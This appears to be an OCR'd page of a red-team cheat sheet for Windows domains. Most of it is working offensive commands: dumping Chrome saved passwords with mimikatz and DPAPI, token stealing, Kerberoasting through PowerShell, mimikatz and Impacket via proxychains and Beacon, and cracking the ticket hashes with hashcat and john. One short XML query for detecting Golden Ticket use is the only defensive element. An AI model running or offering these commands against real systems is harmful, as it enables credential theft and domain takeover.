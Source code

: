 Dump Google Chrome passwords
```
    shell copy "C:\users\kobrien\appdata\local\google\chrome\user data\default\Login Data" C:\users\public\libraries\ld.dat
    
    steal_token <user pid>

    mimikatz @dpapi::chrome /in:C:\users\public\libraries\ld.dat /unprotect
```

Detecting Golden Ticket use on a DC
```
    <QueryList>
      <Query Id="0" Path="Security">
        <Select Path="Security">
            *[System[EventID='4768']]
            and
            *[EventData[Data[@Name='TargetUserName'] != 'ANONYMOUS LOGON']]
            and
            *[EventData[Data[@Name='ServiceName'] = 'krbtgt']]
            and
            *[EventData[Data[@Name='TicketEncryptionType'] = '0x17']]
            </Select>
      </Query>
    </QueryList>
```

### Kerberoast
https://github.com/nidem/kerberoast
https://room362.com/post/2016/kerberoast-pt1/
https://room362.com/post/2016/kerberoast-pt2/
https://room362.com/post/2016/kerberoast-pt3/
```
    Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/host.domain.com" 
```

Use mimikatz to export SPN Tikets once requested (Generates one file per ticket unless base64 option is used)
```
    mimkatz kerberos::list /export
    Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'
```

Impacket method of extracting SPN tickets and output hashes in the correct format for John via Proxychains and Beacon (Preferred)
```
    proxychains python ./GetUserSPNs.py -request domain.com/domainuser:password -dc-ip <domain controller IP> -outputfile <out.dump>
```

Cracking the hashes
```
    ./hashcat -m 13100 -a 0 spns.dump ./wordlists/* -r rules/dive.rule

    ./john --format=krb5tgs spns.dump --wordlist=
```
